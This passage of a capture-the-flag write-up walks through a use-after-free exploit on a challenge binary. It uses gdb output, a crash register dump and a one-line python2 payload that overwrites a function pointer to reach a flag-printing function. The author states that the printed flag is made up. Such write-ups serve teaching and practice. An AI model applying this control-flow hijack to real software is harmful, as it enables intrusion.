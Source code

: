 ```
gdb$ hexdump $rax 2
0x0000000000603850 : 45 45 45 45 0A 00 00 00 - 42 42 42 42 0A 00 00 00 EEEE....BBBB....
0x0000000000603860 : 00 00 00 00 04 00 00 00 - A1 07 02 00 00 00 00 00 ................
```

We can now put our own input into the address that is getting executed  in pwnMe, however we still need to make it pass the check where ```[rax + 20] = 3```. Well what is in ```[rax + 20]``` currently?

```
gdb$ p *($rax + 0x14)
$5 = 0x4
```

It turns out that I created a Caspain Tiger which was the fourth choice. If I switch it to a Sumatarian Tiger, which is the third choice, it then becomes 0x3 which is what we need. 

So putting this all together: We create two bears, delete the first, create a Sumatarian Tiger and then enter in 4919, and then we should have our own code executing. So lets try it out, and see what gdb says.

```
Program received signal SIGSEGV, Segmentation fault.
-----------------------------------------------------------------------------------------------------------------------[regs]
  RAX: 0x0000000A45454545  RBX: 0x0000000000000000  RBP: 0x00007FFFFFFFE8C0  RSP: 0x00007FFFFFFFE8A8  o d I t s Z a P c 
  RDI: 0x00007FFFF7DD38C0  RSI: 0x000000000000000A  RDX: 0x00007FFFF7DD5770  RCX: 0x0000000000000010  RIP: 0x0000000A45454545
  R8 : 0x00007FFFF7FD3700  R9 : 0x0000000000000000  R10: 0x1999999999999999  R11: 0x000000000000000A  R12: 0x0000000000400820
  R13: 0x00007FFFFFFFE9E0  R14: 0x0000000000000000  R15: 0x0000000000000000
  CS: 0033  DS: 0000  ES: 0000  FS: 0000  GS: 0000  SS: 002B				Error while running hook_stop:
Cannot access memory at address 0xa45454545
0x0000000a45454545 in ?? ()
gdb$ 

```

Success!

Looking back in IDA it turns out that 0x40090D there is a function called *l33tH4x0r* which reads from flag.txt and prints it to stdout. So we just need to put the name of the caspian tiger as the address to *l33tH4x0r* and it will be executed. 

Here is my full solution(Sorry for the long command lol):
```
python2 -c "print '3\n1\na\n3\n1\nb\n4\n1\n2\n3\n' + '\x0D\x09\x40\x00\x00\x00\x00\x00' + '\n4919\n'" | ./503b8ee65d7e768e81ee95b7ce14b2a903abb5c7
```

When I run my solution the end of the output Note that I did not remember the flag so I just made one up to prove it works.

```
...
Enter your choice:
TUCTF{I_FORGOT_THE_FLAG}
```


